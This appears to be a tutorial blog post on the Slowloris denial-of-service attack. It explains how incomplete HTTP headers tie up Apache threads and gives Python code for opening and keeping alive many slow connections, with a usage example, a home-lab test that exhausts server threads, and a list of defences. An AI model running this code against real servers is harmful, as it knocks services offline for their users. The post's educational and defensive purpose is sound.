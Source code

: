 Slowloris attack

The slowloris attack is a form of DoS (Denial of Service) attack, which is able to incapacitate certain vulnerable web servers, e.g. Apache. The slowloris attack doesn't require high amount of resources like regular DoS attacks. It accomplishes this, with the clever usage of how the HTTP protocol operates.

See a valid HTTP GET request in the image gallery.

CRLF means a new line. The HTTP GET request header is expected to be terminated by an empty line(CRLFCRLF).

This attack vector utilizes this requirement and generates a HTTP GET request header without terminating it with an empty line and hence leaving the connection open. Thereby it simulates a very slow connection, which wouldn't normally register as malicious intent.This would consume a thread and and by generating a large number of "slow' requests, the server is unable to process valid requests.

Implementation

The life-cycle would look like this:

1. Create Socket object
2. Create TCP connection
3. Send HTTP request
4. (Wait)
5. Close socket

Socket creation

def create_socket_and_send_http_get(ip, port):
See Github repo for complete code (can't add here due to char limit)

Further steps would are required

1. Generate a defined number (parameter) of requests
2. Keep track of the socket objects by adding them to a list as they are created

def generate_requests(ip, port, socket_count)
    #Socket list to track all the active requests towards the host
    socket_list = []
    #Create the defined number of sockets
    for _ in range(int(socket_count)):
        try:
            print("Creating socket nr {}".format(_))
            s = create_socket_and_send_http_get(ip, port)
        except socket.error:
            #Close the socket in case of error
            if 's' in locals():
                s.close()
            break
        #Add the generated socket to the list
        socket_list.append(s)
    print("Finished creating {} sockets".format(socket_count))
    return socket_list

Sending keep alive requests

  - In case the request is terminated or received an error during keep-alive:

    1. Remove the inactive socket from the list
    2. Calculate the difference between the active number of sockets in the list and count provided in the parameter
    3. Regenerate the requests for the difference
    4. Merge the the newly created list with the original active socket list

  - In case the program is terminated:

    1. Close all the sockets in the active list

def send_keep_alive(ip, port, socket_count, socket_list, timer):
    while True:
        try:
            #Send keep alive requests for all sockets in the socket_list
            print("Sending keep alive to {} active sockets".format(len(socket_list)))
            for s in socket_list:
                try:
                    s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode('UTF-8'))
                except socket.error:
                    #In case of an error, remove the socket from the active list and close it
                    if 's' in locals():
                        socket_list.remove(s)
                        s.close

            #Get the number of inactive sockets by comparing the number of active sockets and the socket_count paramater
            #Regenerate sockets for the difference between the above numbers
            socket_count_delta = socket_count - len(socket_list)
            if socket_count_delta > 0:
                print("Regenerating {} sockets".format(socket_count_delta))
                socket_list_delta = generate_requests(ip, port, socket_count_delta)
                socket_list += socket_list_delta

            #Wait for a defined period (timer parameter), before the next loop iteration
            time.sleep(timer)

        except (KeyboardInterrupt, SystemExit):
            print("Stopping Slowloris")
            for s in socket_list:
                socket_list.remove(s)
                s.close()
            print("All sockets closed")
            break

Fitting the pieces together

Since this is quite a simple logic, it can be put together in the main method. I've just added some minimal parameter check and marshaling of the parameters, otherwise it just requires the usage of the parts already explained above.

def main()
    HELP_MESSAGE = """
    Script help
    slowlorispylot.py [host] [port] [number of sockets] [timeout]
    
    E.g. slowlorispylot.py 127.0.0.1 80 200 15
    """
    if len(sys.argv) < 5:
        print("Parameter missing".format(sys.argv[0]))
        print(HELP_MESSAGE)
        return
    ip = sys.argv[1]
    port = sys.argv[2]
    socket_count = int(sys.argv[3])
    timer = int(sys.argv[4])
    #Generate request
    socket_list = generate_requests(ip, port, socket_count)
    #Keep requests active
    send_keep_alive(ip, port, socket_count, socket_list, timer)

Limitations

This logic is only covering IPv4 requests and doesn't handle proxies, since it is meant mainly as a practice exercise. There are other existing libraries with a more complete coverage, which are referenced below.

Testing

I'm running a WAMP server with Apache/2.4.39 (Win64) version on my Windows 10 machine and executing the slowloris script from a Raspberry PI running Kali Linux from the same local network towards the Windows machine.

When looking at the requests more closely with Wireshark, the TCP segments are visible in the packet capture, as well as the incomplete request - see attached image (Wireshark 1).

The dummy HTTP headers keep the request open, as seen in the image (Wireshark 2).

Getting also a timeout when querying the server from the remote host:

$ curl 192.168.2.10
curl: (7) Failed to connect to 192.168.2.10 port 80: Connection timed out

The following message has also appeared in the Apache server logs:

[Wed Nov 06 08:35:20.953958 2019] [mpm_winnt:error] [pid 1344:tid 2336] AH00326: Server ran out of threads to serve requests. Consider raising the ThreadsPerChild setting

Defending against slowloris attacks

    Using a different web server, which isn't affected e.g. nginx
    Limit connections per IP address, however this wouldn't help in case of a distributed attack
    Install a load balancer, because it only forwards complete HTTP requests
    Install an Apache module, which mitigates this problem e.g. mod_qos, mod_antiloris, etc.

